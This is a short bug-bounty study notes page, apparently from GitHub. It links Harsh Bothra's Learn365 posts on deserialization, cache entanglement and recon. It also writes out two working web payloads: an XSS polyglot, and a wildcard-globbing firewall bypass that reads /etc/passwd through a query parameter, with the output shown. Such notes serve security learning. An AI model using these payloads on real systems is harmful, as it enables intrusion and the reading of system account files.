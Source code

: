 ## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 69
- [ Insecure Deserialization](https://twitter.com/harshbothra_/status/1369654854612787202?s=20)

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 70
- [Web Cache Entanglement](https://twitter.com/harshbothra_/status/1369732836266184704?s=20)

## Deserialization Attacks
- https://github.com/kojenov/serial
- https://youtu.be/Y0QxwRyqlh8

## The Best XSS Polyglot! Police cars revolving lightPolice cars revolving light
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Bypass Firewalls
```http
GET /?cc=cat+/etc/passwd

403 Forbidden

GET /?cc=/???/??t+/???/??ss??

200
root:x:0:0:root...

Done bypass firewall
```

# 📅 12-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 71
- [OWASP Amass](https://twitter.com/harshbothra_/status/1370103728473182212?s=20)

# 📅 14-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 72
- [Offensive Javascript Techniques for Red Teamers](https://twitter.com/harshbothra_/status/1370682535680733193?s=20)
